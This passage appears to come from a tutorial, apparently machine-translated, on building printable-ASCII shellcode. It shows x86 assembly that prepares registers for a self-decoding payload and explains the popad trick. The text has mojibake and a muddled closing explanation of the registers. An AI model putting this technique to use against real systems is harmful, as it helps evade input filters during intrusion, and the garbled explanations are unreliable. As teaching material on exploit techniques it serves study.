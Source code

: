 Of course, each method has advantages and disadvantages.

## III 鈥� The construction of the shellcode

### III 鈥� 1. 鈥淭ools鈥�



As we can see, the two methods mentioned above use 鈥渢ools鈥�.
It is a sequence of instructions that edits the registry to be used later to decode.

```asm
Dec esp
Dec esp
Dec esp
Dec esp
pop edx; Retrieves a record the start address of the shellcode.
push dword 0x58494741
pop eax
xor eax, 0x58494741
Dec eax; Retrieves a record FFFFFFFF.
push esp
pop ecx; Retrieves a register address of the stack.
push edx
push ecx
push edx
push eax
push esp
push ebp
push esi
push edi
popad
```





The pop instruction is a printable ascii character only eax, ecx, and edx is why
we use popad after stacked in a specific order all the registries.
Indeed popad equivalent to the following 

```asm
POP EDI 
POP ESI 
POP EBP 
POP ESP 
POP EBX 
POP EDX
POP ECX 
POP EAX
```



Our tools are ready: **eax** with the address of the beginning of the shellcode, **ecx** with the address stack, we use **edx** to xor what we want and finally with FFFFFFFF **ebx** who used xor, "not" equivalent to the statement.
